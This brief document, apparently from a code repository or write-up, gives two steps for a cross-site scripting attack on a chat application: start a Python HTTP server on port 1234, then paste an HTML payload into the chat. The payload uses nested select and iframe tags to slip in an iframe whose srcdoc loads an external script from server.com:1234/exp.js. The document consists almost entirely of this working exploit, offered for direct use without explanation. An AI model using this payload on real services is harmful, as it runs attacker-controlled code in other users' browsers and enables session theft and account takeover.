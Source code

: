 
1. python -m http.server 1234
2. paste this in chat

```html
<select><iframe></select><iframe srcdoc='<script src="http://server.com:1234/exp.js"></script>'></iframe></select>
```
